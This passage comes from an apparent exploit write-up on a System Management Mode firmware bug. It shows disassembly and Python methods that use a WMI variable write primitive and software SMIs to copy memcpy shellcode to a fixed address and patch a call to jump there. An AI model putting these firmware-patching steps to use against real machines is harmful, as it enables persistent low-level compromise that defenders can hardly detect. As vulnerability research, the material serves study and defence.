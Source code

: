 This is because the instruction sign-extends the value in `al` to `EAX`. If `al` contains a value greater than 0x7F, then it is treated as a negative value when considered as a signed byte.


So while ***fnWriteStatusToMemory*** still writes wide-bytes, it's the perfect piece to the puzzle :

```
E8 68 EF FF FF     call    fnWriteStatusToMemory
```

can now become:

```
E8 68 [EA FF] FF   call    near ptr unk_4AA32138
```

What's at 0x4AA32138? Nothing important! (except a sweet ROP gadget, but since I don't have the ability to debug in SMM this one is worthless).

```
44 0F 6F 89 88 00 00 00                movq    mm1, qword ptr [rcx+88h]
F3 44 0F 6F 91 98 00 00 00             movdqu  xmm10, xmmword ptr [rcx+98h]
F3 44 0F 6F 99 A8 00 00 00             movdqu  xmm11, xmmword ptr [rcx+0A8h]
F3 44 0F 6F A1 B8 00 00 00             movdqu  xmm12, xmmword ptr [rcx+0B8h]
F3 44 0F 6F A9 C8 00 00 00             movdqu  xmm13, xmmword ptr [rcx+0C8h]
F3 44 0F 6F B1 D8 00 00 00             movdqu  xmm14, xmmword ptr [rcx+0D8h]
F3 44 0F 6F B9 E8 00 00 00             movdqu  xmm15, xmmword ptr [rcx+0E8h]
48 89 D0                               mov     rax, rdx
FF 61 48                               jmp     qword ptr [rcx+48h]
```

Plenty of room for the memcpy shellcode to go!

First I copy the shellcode to 0x4AA32138:

<div class="example">
</div>
```
def copy_memcpy(self):
    for idx, b in enumerate(Shellcode.MEM_COPY):
        primitive = b + b"\x00\x00\x00\x00\x00\x00\x00"
        data = self.gen_bad_var_data(
            wmi_memaddr=0x4AA32138
            - 0x2
            + idx,
            write_primitive=primitive,
        )
        self.set_wmi_var(data)
        self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
        time.sleep(0.200)
```

Now I redirect the call to `fnWriteStatusToMemory` to **0x4AA32138** by writing `0xEA 0xFF` to _0x4AA415A3_:

<div class="example">
</div>
```
def patch_call_addr(self):
    primitive = b"\xEA\x00\x00\x00\x00\x00\x00"
    data = self.gen_bad_var_data(
        wmi_memaddr=0x04AA415A3
        + 0x2   # yes, i know
        - 0x2,  # .text:000000004AA415A3 E8 68 EF FF FF => E8 68 EA FF FF
        write_primitive=primitive,
    )
    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```